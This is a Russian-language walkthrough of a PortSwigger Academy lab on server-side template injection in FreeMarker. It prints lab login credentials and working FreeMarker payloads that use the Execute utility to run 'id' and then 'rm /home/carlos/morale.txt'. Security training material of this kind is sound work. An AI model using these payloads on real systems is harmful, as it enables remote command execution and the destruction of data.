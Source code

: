 Залогинимся на уязвимом ресурсе под `content-manager:C0nt3ntM4n4g3r`

Перейдем в случайный товар и нажмем `Edit template`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/3.%20Server-side%20template%20injection%20using%20documentation/pics%20for%20walkthrough/1.png)

изменим значение в тэмплэйте на несуществующее значение, к примеру на  `${product.test}` и нажмем `preview` и получим огроменную ошибку

Но! Благодаря этой ошибке мы увидели, что использется фрэймворк `FreeMarker`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/3.%20Server-side%20template%20injection%20using%20documentation/pics%20for%20walkthrough/2.png)

Перейдем в `https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`
и увидим, что это можно проэксплойтить через следующий пэйлоад
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

Вставим его и увидим, что он идеально отрабатывает в нашем случае

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/3.%20Server-side%20template%20injection%20using%20documentation/pics%20for%20walkthrough/3.png)

Далее удалим `/home/carlos/morale.txt` как этого и требует задание
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}
```
и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/3.%20Server-side%20template%20injection%20using%20documentation/pics%20for%20walkthrough/4.png)
